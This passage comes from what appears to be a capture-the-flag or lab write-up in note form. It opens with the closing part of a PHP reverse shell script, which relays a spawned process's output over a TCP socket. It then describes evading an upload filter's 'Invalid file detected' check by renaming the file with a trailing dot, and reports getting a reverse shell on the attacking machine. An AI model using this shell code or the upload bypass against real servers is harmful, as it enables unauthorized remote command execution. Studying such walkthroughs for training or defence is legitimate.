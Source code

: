 ```php
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

Then we create a file named `reverse_shell.php`.

![[IMG-20250825192321009.png]]

However, this time we get another error: **“Invalid file detected”**.
This confirms that PHP files are not allowed for upload.  
We can bypass this restriction by simply changing the file extension — for example, renaming `.php` to `.php.` (adding a trailing dot).

![[IMG-20250825192321062.png]]

And there we are, our payload is now upload and when we open a port on the attacking machine we have our reverse shell

![[IMG-20250825192321400.png]]
